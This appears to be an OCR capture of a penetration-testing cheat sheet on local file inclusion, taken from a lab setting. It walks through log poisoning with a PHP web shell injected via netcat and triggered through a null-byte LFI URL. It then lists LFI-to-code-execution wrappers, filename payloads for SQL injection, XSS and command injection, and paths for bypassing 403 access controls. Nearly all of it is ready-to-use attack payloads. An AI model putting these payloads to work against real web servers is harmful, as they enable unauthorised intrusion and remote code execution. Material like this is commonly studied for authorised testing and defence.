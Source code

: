     # Contaminating log files
    root@kali:~# nc -v 10.11.1.111 80
    10.11.1.111: inverse host lookup failed: Unknown host
    (UNKNOWN) [10.11.1.111] 80 (http) open
     <?php echo shell_exec($_GET['cmd']);?> 
    http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig
    
    # Common LFI to RCE:
        Using file upload forms/functions
        Using the PHP wrapper expect://command
        Using the PHP wrapper php://file
        Using the PHP wrapper php://filter
        Using PHP input:// stream
        Using data://text/plain;base64,command
        Using /proc/self/environ
        Using /proc/self/fd
        Using log files with controllable input like:
            /var/log/apache/access.log
            /var/log/apache/error.log
            /var/log/vsftpd.log
            /var/log/sshd.log
            /var/log/mail
    
    # LFI possibilities by filetype
        ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
        SVG: Stored XSS / SSRF / XXE
        GIF: Stored XSS / SSRF
        CSV: CSV injection
        XML: XXE
        AVI: LFI / SSRF
        HTML / JS : HTML injection / XSS / Open redirect
        PNG / JPEG: Pixel flood attack (DoS)
        ZIP: RCE via LFI / DoS
        PDF / PPTX: SSRF / BLIND XXE
        
    # Chaining with other vulns    
    ../../../tmp/lol.png —> for path traversal
    sleep(10)-- -.jpg —> for SQL injection
    <svg onload=alert(document.domain)>.jpg/png —> for XSS
    ; sleep 10; —> for command injections
    
    # 403 bypasses
    /accessible/..;/admin
    /.;/admin
    /admin;/
    /admin/~
    /./admin/./
    /admin?param
    /%2e/admin
    /admin#
    /secret/
    /secret/.
    //secret//
    /./secret/..
    /admin..;/
    /admin%20/
    /%20admin%20/